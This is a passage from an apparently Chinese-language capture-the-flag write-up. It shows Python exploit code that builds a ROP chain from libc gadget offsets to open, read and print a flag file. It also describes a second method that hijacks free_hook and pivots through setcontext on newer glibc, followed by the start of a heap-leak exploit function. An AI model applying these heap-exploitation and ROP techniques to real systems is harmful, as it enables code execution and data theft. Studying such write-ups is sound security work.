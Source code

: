 ```python
    my_edit(heap4, 0x100000004)
    sl(flat('./flag\x00'.ljust(0x500, 'v'), 0, 0x21, stack, 0x1000))

    poprax = 0x4a550 + LIBC
    poprdi = 0x26b72 + LIBC
    poprsi = 0x27529 + LIBC
    poprdx = 0x11c371 + LIBC
    syscall = 0x66229 + LIBC

    my_edit(stack, 0x100000004)
    sl(flat(
        # open("./flag")
        poprax, 2, 
        poprdi, heap4, 
        poprsi, 0, 
        poprdx, 0, 0, 
        syscall, 
        # read(3, buf, 0x100)
        poprax, 0, 
        poprdi, 3, 
        poprsi, heap4, 
        poprdx, 0x100, 0, 
        syscall, 
        # write(1, buf, 0x100)
        poprax, 1, 
        poprdi, 1, 
        poprsi, heap4, 
        poprdx, 0x100, 0, 
        syscall
        ))


```

更新下另一个解法, 可以使用setcontext, 但是在2.29以后的版本rdi换成了rdx, 找到了一个比较有用的gadget, 

> 其实要找的gadget大概是, 存在rdi到rdx赋值,最后使用rdx或rdi调整程序流

![image-20210730092531205](https://i.loli.net/2021/07/30/DIyztCB9YQdEFuv.png)

然后freehook改为gadget, 然后设置好rdx以后再去setcontext, 

```python

def exp2():
    payload  = rop([pop, chunk_list, 0, printf], 0)
    sl(payload)
    recv()
    heap = u64(re(6, 2).ljust(8, b'\x00'))
    heap = heap - 0x480
    print(hex(heap))
    
    heap1 = heap + 0x480 
    heap2 = heap + 0x4d0

    
    def my_new(size):
        sl(rop([pop, size, 0, syscall3], 0))

    def my_dele(ptr):
        sl(rop([pop, ptr, 0, syscall4], 0))

    def my_show(ptr):
        sl(rop([pop, ptr, 0, syscall7], 0))
    
```